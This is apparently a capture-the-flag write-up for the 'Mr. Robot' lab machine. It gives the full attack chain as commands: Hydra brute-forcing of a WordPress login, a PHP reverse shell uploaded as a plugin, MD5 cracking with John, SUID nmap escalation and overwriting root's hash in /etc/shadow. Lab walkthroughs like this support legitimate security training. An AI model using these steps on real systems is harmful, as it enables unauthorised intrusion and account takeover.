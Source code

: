 # Mr. Robot
_IP: 10.0.4.5_

The first thing I did was an nmap scan which you can find i this folder.
Basicly, it did not tell us much, but I found out that there is site running.

_The first thing I checked was:_
https://10.0.4.5/robots.txt

_This is what I've got:_<br>
> User-agent: *<br>
> fsocity.dic<br>
> key-1-of-3.txt

> [!NOTE]
> _key-1-of-3.txt is a flag for ctf doers._

**After some research I figured out that that was a wordpress site.**<br>
Then, I found the login page and started preparing for bruteforce.
Probably there was an easier way, but I ran BurpSuite intercepted traffic while trying to login, and got this line:<br>
> log=user&pwd=pwd&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.0.4.5%2Fwp-admin%2F&testcookie=1

This is how looked a command for bruteforcing a username:<br>
`hydra -L fsocity.dic -p test 10.0.4.5 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp submit=Log+In&redirect_to=http%3A%2F%2F10.0.4.5%2Fwp-admin%2F&testcookie=1:Invalid username" -V`
> [80][http-post-form] host: 10.0.4.5   login: Elliot   password: test

Now I need to bruteforce the password. But first we need to remove dublications from the file since there is a lot of them.
`sort fsocity.dic | uniq > new_fsocity.dic`

You can check the lenght of the file before and after using this command:
`wc -l`

Then run password bruteforcing.
`hydra -l Elliot -P n_fsocity.dic 10.0.4.5 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.0.4.5%2Fwp-admin%2F&testcookie=1:The password you entered" -V`

Username: _Elliot_
Password: _ER28-0652_

Looks like I can upload my own plugins, so I found a simple php reverse-shell, and zipped it, so wordpress thinks it is a plugin.
`zip rev-plug.zip ./shell.php`

Upload the plugin, set up a nc listener, and activate the plugin. Now we have a reverse-shell.
Use this command to upgrade the shell:
`python -c 'import pty; pty.spawn("/bin/bash")'`

We can see that there is a user named robot. Go to his folder and we will find:
> key-2-of-3.txt - Second key for ctfers
> password.raw-md5

This is what I have found in password.raw-md5
robot:c3fcd3d76192e4007dfb496cca67e13b

Let's crack the hash.
`john --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt robot_hash.txt`
username: robot
password: abcdefghijklmnopqrstuvwxyz

Change current user to robot.

## Almost there
**Now we need to find a way to escalate our privileges.**

We cannot run sudo. Let's look what we can do.
I used the next command to find files that I can run with their owner privileges.
`find / -perm -u=s -type f 2>/dev/null`
One of these files was nmap.

It is useful to have a simple hash if we need in any case.
> WVLY0mgH0RtUI = mrcake

> [!NOTE]
> https://gtfobins.github.io/
> Useful site to find ways for privilege escalation.

To escalate our privileges with nmap I do:
`nmap --interactive`
`!sh`

Then modify the password of root in /etc/shadow to our known hash, so that you can easily access it again.
`nano /etc/shadow`
`root:WVLY0mgH0RtUI:16753:0:99999:7:::`

**Thank you for attention.**
